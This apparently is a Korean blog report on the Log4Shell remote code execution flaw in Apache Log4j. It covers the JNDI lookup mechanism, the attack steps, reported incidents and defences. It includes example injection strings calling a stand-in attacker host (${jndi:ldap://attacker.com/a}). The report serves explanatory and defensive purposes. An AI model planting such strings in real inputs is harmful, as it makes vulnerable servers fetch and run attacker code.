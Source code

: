 ```yaml
---
layout: post
title:  LOG4shell 보고서
date:   2025-03-24
category: Design
image: assets/img/5_28_work/log4shell.jpg
author: 이태강
tags: code
---
```


Log4Shell이란?


Apache Log4j라는 Java 기반 로깅 라이브러리에서 발견된 원격 코드 실행(RCE) 취약점


높은 위험도: CVSS 점수 10점(최고 점수)을 받았으며, 광범위한 영향으로 인해 매우 위험합니다.


영향받는 버전: Apache Log4j 2.0-beta9부터 2.14.1 사이의 버전이 취약합니다


취약점의 원리
Log4Shell은 JNDI(Java Naming and Directory Interface) Lookup 기능의 취약점을 악용합니다:
1.JNDI Lookup의 동작: Log4j는 로그 메시지 내 특정 문자열(예: ${jndi:ldap://attacker.com/a})을 처리할 때 JNDI를 호출하여 외부 서버와 통신합니다.
2.검증 부족: JNDI 호출 시 외부 디렉토리 서비스(LDAP, RMI 등)에서 데이터를 불러오는데, 이 과정에서 입력값 검증이 제대로 이루어지지 않았습니다.
3.악성 코드 실행: 공격자는 악성 페이로드를 포함한 URL을 삽입하여 Log4j가 이를 처리하도록 유도하고, 서버가 공격자의 LDAP 서버에서 악성 클래스를 다운로드 및 실행하게 만듭니다.

공격 과정



1.악성 문자열 삽입:
공격자는 로그 메시지에 ${jndi:ldap://malicious-server}와 같은 악성 문자열을 삽입합니다. 이 문자열은 Log4j가 JNDI(Java Naming and Directory Interface) 호출로 처리하도록 설계되었습니다.
2.JNDI Lookup 수행:
Log4j는 로그 메시지를 처리할 때 JNDI Lookup 기능을 통해 외부 서버(예: ldap://malicious-server)와 통신합니다. 이때, 입력값에 대한 검증이 이루어지지 않아 공격자의 서버로 연결됩니다.
3.악성 Java 클래스 반환:
공격자의 LDAP 서버는 악성 Java 클래스 파일을 반환합니다. 이 파일은 공격자가 미리 설계한 페이로드를 포함하고 있습니다.
4.피해 서버에서 실행:
피해 서버는 반환된 Java 클래스를 역직렬화하거나 실행합니다. 이로 인해 공격자는 피해 서버에서 임의의 코드를 실행하거나 시스템을 제어할 수 있게 됩니다

  
 피해 사례
   Log4Shell은 전 세계적으로 광범위한 영향을 미쳤으며, 다음과 같은 주요 사례가 보고되었습니다:
•	Minecraft: 게임 내 채팅창에 악성 문자열을 입력해 서버를 장악하는 방식으로 Khonsari 랜섬웨어가 유포되었습니다.
•	대형 기업: Twitter, Cisco, VMware 등 여러 글로벌 기업이 영향을 받았으며, 해커들은 크립토마이닝, 파일리스 멀웨어 등을 배포했습니다.
•	국가 차원의 공격: 중국, 이란, 북한 등과 관련된 해커들이 이 취약점을 악용한 것으로 나타났습니다.


방어 방법
   Log4Shell 취약점을 방어하기 위해 다음과 같은 조치가 권장됩니다:



1.Log4j 업데이트:
Apache에서 제공한 패치 버전(2.15.0 이상)으로 즉시 업데이트합니다.
최신 버전(2.17.x)을 사용하는 것이 가장 안전합니다.

2.JNDI Lookup 비활성화:
log4j2.formatMsgNoLookups=true 옵션을 설정하거나, %m을 %m{nolookups}로 변경하여 JNDI 호출을 차단합니다.

3.네트워크 보안 강화:
IDS/IPS(침입 탐지/방지 시스템)를 사용해 의심스러운 트래픽을 차단합니다.
방화벽 규칙을 설정해 외부 LDAP/RMI 요청을 제한합니다.

4.대체 라이브러리 사용:
Logback 등 다른 로깅 라이브러리로 교체
